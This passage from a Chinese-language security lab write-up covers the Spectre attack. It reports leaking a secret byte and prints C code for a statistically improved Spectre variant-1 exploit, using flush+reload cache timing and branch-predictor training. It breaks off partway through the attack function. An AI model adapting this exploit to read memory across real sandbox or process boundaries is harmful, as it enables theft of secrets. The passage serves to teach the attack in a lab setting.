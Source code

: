 成功获得了Secret 83（即首字母S）。

## Task 5: Improve the Attack Accuracy

上述攻击在一些情况下可能不能得到准确结果，故采用统计方法，每次实验中如果满足时间小于等于阈值则将对应的score+1，多次实验，认为score最大的是secret。

```c
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>	// for usleep()
#include <emmintrin.h>
#include <x86intrin.h>
#define CACHE_HIT_THRESHOLD (120)
#define DELTA 1024
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
char *secret = "Some Secret Value";
uint8_t array[256 * 4096];

static int scores[256];
void reloadSideChannelImproved()
{
	int junk = 0;
	register uint64_t time1, time2;
	volatile uint8_t *addr;
	int i;
	for (i = 0; i < 256; i++) {
		addr = &array[i * 4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
			scores[i]++; /* if cache hit, add 1 for this value */
	}
}
void flushSideChannel()
{
	int i;
// Write to array to bring it to RAM to prevent Copy-on-write
	for (i = 0; i < 256; i++) array[i * 4096 + DELTA] = 1;
// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i * 4096 + DELTA]);
}
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
	if (x <= bound_upper && x >= bound_lower) {
		return buffer[x];
	} else { return 0; }
}
void spectreAttack(size_t index_beyond)
{
	int i;
	uint8_t s;
	volatile int z;
// Train the CPU to take the true branch inside restrictedAccess().
	for (i = 0; i < 10; i++) {
		restrictedAccess(i);
	}
// Flush bound_upper, bound_lower, and array[] from the cache.
	_mm_clflush(&bound_upper);
	_mm_clflush(&bound_lower);
	for (i = 0; i < 256; i++) { _mm_clflush(&array[i * 4096 + DELTA]); }
```